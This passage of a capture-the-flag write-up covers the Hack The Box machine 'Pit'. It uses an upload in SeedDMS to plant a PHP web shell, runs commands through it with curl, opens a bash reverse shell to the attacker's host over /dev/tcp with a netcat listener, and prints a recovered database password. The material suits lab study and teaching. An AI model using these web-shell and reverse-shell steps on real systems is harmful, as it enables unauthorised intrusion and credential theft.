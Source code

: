**Exploit**:

1. upload a document: `http://dms-pit.htb/seeddms51x/seeddms/out/out.ViewDocument.php?documentid=<DOC_ID>&showtree=1`, it could be visited as `http://dms-pit.htb/seeddms51x/data/1048576/<DOC_ID>/1.php`

![image-20240202032517877](./Pit.assets/image-20240202032517877.png)

2. POC check
   - id [ok]
   - ping [x]

```console
└─╼$ curl -G --data-urlencode 'cmd=id' http://dms-pit.htb/seeddms51x/data/1048576/32/1.php
uid=992(nginx) gid=988(nginx) groups=988(nginx) context=system_u:system_r:httpd_t:s0
```

3. trigger a reverse shell, notice that the shell is limited (cannot open some dirs and unable to use some commands => **SELinux**)

```console
└─╼$ curl -G --data-urlencode 'cmd=bash -i >&/dev/tcp/10.10.14.14/4444 0>&1' http://dms-pit.htb/seeddms51x/data/1048576/33/1.php

---

└─╼$ sudo rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.241] 57068
bash: cannot set terminal process group (10789): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ id
id
uid=992(nginx) gid=988(nginx) groups=988(nginx) context=system_u:system_r:httpd_t:s0
bash-4.4$ uname -a
uname -a
Linux pit.htb 4.18.0-305.10.2.el8_4.x86_64 #1 SMP Tue Jul 20 17:25:16 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

4. enum db config: `seeddms:ied^ieY6xoquu`

![image-20240202032842449](./Pit.assets/image-20240202032842449.png)
